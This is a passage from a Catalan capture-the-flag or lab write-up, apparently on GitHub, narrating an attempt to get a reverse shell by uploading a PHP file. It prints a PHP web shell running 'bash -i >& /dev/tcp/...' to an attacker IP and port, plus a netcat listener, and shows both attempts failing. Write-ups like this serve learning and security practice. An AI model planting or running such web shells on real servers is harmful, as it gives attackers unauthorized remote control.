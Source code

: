Però i si en comptes de fer que escrigui un text a la pàgina, li enxufem un comando que es connecti a la nostra màquina? *(Reverse Shell)*

Per a generar la comanda, faré us de la pàgina [revshells.com](https://www.revshells.com/). No oblidem seleccionar el tema "Meme".

![revshells.com](./img/revshells.png)

Un cop tenim la comanda per a la víctima i l'atacant, creem l'arxiu PHP.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/212.227.146.196/4646 0>&1") ?>
```

Prèviament a penjar l'arxiu, ens posem en escolta al port `4646` amb **Netcat**.

```
$ nc -lvnp 4646
```

Un cop pengem l'arxiu i l'obrim, no passa absolutament res perquè no he especificat la IP de l'atacant (la meva), sinó la de la víctima, per tant s'està intentant connectar a sí mateix (sóc burro).

Ara sí, ho fotrem bé.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/IP_DEL_FONTA/4646 0>&1") ?>
```

Doncs mecagum deu no va. *xd*.
